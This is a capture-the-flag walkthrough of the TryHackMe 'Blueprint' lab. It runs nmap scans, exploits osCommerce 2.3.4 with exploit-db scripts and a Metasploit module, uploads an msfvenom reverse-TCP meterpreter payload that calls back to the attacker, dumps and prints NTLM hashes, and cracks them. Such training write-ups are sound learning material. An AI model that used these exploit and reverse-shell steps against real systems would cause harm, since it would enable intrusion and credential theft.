```yaml
---
title: Walkthrough - Blueprint
published: true
---
```


Security, Windows. Hack into this Windows machine and escalaye privileges to admin.

![0xskar](/assets/blueprint01.png)

[https://tryhackme.com/room/blueprint](https://tryhackme.com/room/blueprint)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.226.32 -vvv``

```
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 125
135/tcp   open  msrpc        syn-ack ttl 125
139/tcp   open  netbios-ssn  syn-ack ttl 125
443/tcp   open  https        syn-ack ttl 125
445/tcp   open  microsoft-ds syn-ack ttl 125
3306/tcp  open  mysql        syn-ack ttl 125
8080/tcp  open  http-proxy   syn-ack ttl 125
49152/tcp open  unknown      syn-ack ttl 125
49153/tcp open  unknown      syn-ack ttl 125
49154/tcp open  unknown      syn-ack ttl 125
49158/tcp open  unknown      syn-ack ttl 125
49159/tcp open  unknown      syn-ack ttl 125
49160/tcp open  unknown      syn-ack ttl 125
```

- ``sudo nmap -sV -sT -sC -p80,135,139,443,445,3306,8080,49152,49153,49154,49158,49159,49160 10.10.226.32``

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-title: Bad request!
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods: 
|_  Potentially risky methods: TRACE
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 8080 has an osCommerce site version 2.3.4. searchsploit oscommerce 2.3.4. ``locate 50128`` and lets try to run this exploit. 

- ``python3 ~/exploitdb/exploits/php/webapps/50128.py http://10.10.22.83:8080/oscommerce-2.3.4/catalog``

![0xskar](/assets/blueprint02.png)

- ``whoami /priv`` can see SeImpersonatePrivilege is Enabled.

- ``wmic useraccount get name`` give us Administrator, Guest, and ``Lab`` users.

- unfortuneatly this shell doesnt let us too much so lets look at 43191.py which is an Arbitraty File Upload. ``locate 43191.py`` and should let us upload a windows php revshell.

Using ``multi/http/oscommerce_installer_unauth_code_exec`` in ``msfconsole`` we can upload and execute a revshell ``msfvenom -p windows/meterpreter/reverse_tcp  LHOST=10.2.127.225 LPORT=5555 -f exe > winshell.exe``

Start up a second msfvenom console and start multi handler listener to get a stable shell. ``hashdump`` to dump user creds.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

* * * 

## "Lab" user NTML hash decrypted

- crackstation.net

* * * 

## root.txt

![0xskar](/assets/blueprint03.png)

* * * 

